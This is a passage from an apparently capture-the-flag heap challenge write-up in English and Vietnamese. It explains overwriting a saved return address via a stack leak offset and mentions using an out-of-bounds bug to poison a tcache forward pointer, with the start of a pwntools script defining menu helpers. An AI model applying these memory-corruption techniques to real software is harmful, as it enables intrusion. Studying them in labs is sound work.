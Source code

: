 ```
────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x55911df252db → you_win()
─────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  
```

Here, we see the saved return address is `0x7ffed884faa8`. The stack infoleak we got was `0x7ffed884fa70`, so the offset from it to the value we want is `0x7ffed884faa8 - 0x7ffed884fa70 = 0x38`. We see here, we are overwriting the saved return address with the address of `you_win`, which we see get's called. Just like that, we solved the challenge.

# My solution

> Out of bound bug

Bài này mình cũng làm hướng y hệt bài trước, chỉ là dùng `out of bound` để edit `foward ptr` của `tcache`. POC:

```
from pwn import *

e = ELF("./tmp")
context.binary = e

p_s = lambda data: p.send(data)
p_sa = lambda msg, data: p.sendafter(msg, data)
p_sl = lambda data: p.sendline(data)
p_sla = lambda msg, data: p.sendlineafter(msg, data)
p_recvut = lambda msg: p.recvuntil(msg)
debug = lambda : gdb.attach(p, gdbscript = script)

def alloc(size, index):
	p_sla(b"choice:\n", b"1")
	p_sla(b"0x5f0:\n", f"{size}".encode())
	p_sla(b"allocate?\n", f"{index}".encode())

def view(index, content_idx):
	p_sla(b"choice:\n", b"2")
	p_sla(b"like?\n", f"{index}".encode())
	p_sla(b"see?\n", f"{content_idx}".encode())

def edit(index, content_idx, val):
	p_sla(b"choice:\n", b"3")
	p_sla(b"like?\n", f"{index}".encode())
	p_sla(b"index\n", f"{content_idx}".encode())
	p_sla(b"value\n", f"{val}".encode())

def free(index):
	p_sla(b"choice:\n", b"4")
	p_sla(b"like?\n", f"{index}".encode())

def secret(index, choice):
	p_sla(b"choice:\n", b"5")
	p_sla(b"like?\n", f"{index}".encode())
	p_sla(b"Choice?\n", f"{choice}".encode())

p = process("./tmp")

script = '''
'''

#p = gdb.debug("./tmp", gdbscript = script)
```
